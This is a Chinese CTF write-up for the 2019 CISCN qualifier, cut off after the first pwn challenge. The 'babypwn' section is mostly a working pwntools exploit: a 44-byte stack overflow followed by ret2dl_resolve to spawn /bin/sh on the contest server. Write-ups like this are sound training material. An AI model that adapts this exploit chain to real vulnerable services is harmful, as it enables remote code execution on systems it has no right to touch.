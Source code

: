 ```yaml
---
sidebar: auto
---
```

# 2019 CISCN 初赛wp
打得很艰苦，神仙太多，自己太菜，最后排到了全国100多名，最后还把我们的逆向师傅累病了，祝他早点好吧。
## 签到
没啥好说的，面部识别，只要有三个人同框就有flag（一开始做题的师傅还在想怎么解包python
## babypwn
[0ctf2018 babystack原题](http://eternalsakura13.com/2018/04/01/babystack/)
改地址read的plt地址，改bss地址，改函数地址，直接就打通了
```python
#coding:utf-8
import sys
import roputils
from pwn import *

offset = 44
readplt = 0x08048390
bss = 0x0804a040
vulFunc = 0x804852d

p = process('../baby_pwn')
p = remote('39.97.228.196', 60005)
# context.log_level = 'debug'

def getReloc(elf, base):
    jmprel = elf.dynamic('JMPREL')
    relent = elf.dynamic('RELENT')

    addr_reloc, padlen_reloc = elf.align(base, jmprel, relent)
    reloc_offset = addr_reloc - jmprel
    return reloc_offset

rop = roputils.ROP('../baby_pwn')
addr_bss = rop.section('.bss')

# step1 : write sh & resolve struct to bss
buf1 = 'A' * offset #44
buf1 += p32(readplt) + p32(vulFunc) + p32(0) + p32(addr_bss) + p32(100)
p.send(buf1)

buf2 =  rop.string('/bin/sh')
buf2 += rop.fill(20, buf2)
buf2 += rop.dl_resolve_data(addr_bss+20, 'system')
buf2 += rop.fill(100, buf2)
p.send(buf2)

#step2 : use dl_resolve_call get system & system('/bin/sh')
buf3 = 'A'*44 + rop.dl_resolve_call(addr_bss+20, addr_bss)
p.send(buf3)
p.interactive()
```
## your_pwn